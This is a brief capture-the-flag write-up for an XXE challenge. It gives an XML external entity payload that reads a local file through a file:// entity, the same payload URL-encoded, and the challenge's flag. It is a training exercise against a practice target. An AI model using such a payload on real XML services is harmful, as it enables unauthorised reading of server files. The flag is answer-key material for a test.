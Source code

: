 **Challenge:** http://challenges.ctfd.io:30471/

Target file: `/tmp/messages_outbound.txt`

Vulnerability: XXE

XML payload:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///tmp/messages_outbound.txt"> ]>
<letter><from>&ent;</from><return_addr>&ent;</return_addr><name>&ent;</name><addr>&ent;</addr><message>&ent;</message></letter>
```

Payload with URL encode:
```
%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%65%6e%63%6f%64%69%6e%67%3d%22%49%53%4f%2d%38%38%35%39%2d%31%22%3f%3e%0d%0a%3c%21%44%4f%43%54%59%50%45%20%72%65%70%6c%61%63%65%20%5b%3c%21%45%4e%54%49%54%59%20%65%6e%74%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%74%6d%70%2f%6d%65%73%73%61%67%65%73%5f%6f%75%74%62%6f%75%6e%64%2e%74%78%74%22%3e%20%5d%3e%0d%0a%3c%6c%65%74%74%65%72%3e%3c%66%72%6f%6d%3e%26%65%6e%74%3b%3c%2f%66%72%6f%6d%3e%3c%72%65%74%75%72%6e%5f%61%64%64%72%3e%26%65%6e%74%3b%3c%2f%72%65%74%75%72%6e%5f%61%64%64%72%3e%3c%6e%61%6d%65%3e%26%65%6e%74%3b%3c%2f%6e%61%6d%65%3e%3c%61%64%64%72%3e%26%65%6e%74%3b%3c%2f%61%64%64%72%3e%3c%6d%65%73%73%61%67%65%3e%26%65%6e%74%3b%3c%2f%6d%65%73%73%61%67%65%3e%3c%2f%6c%65%74%74%65%72%3e
```

**Flag:** flag{xxe_aww_yeah}
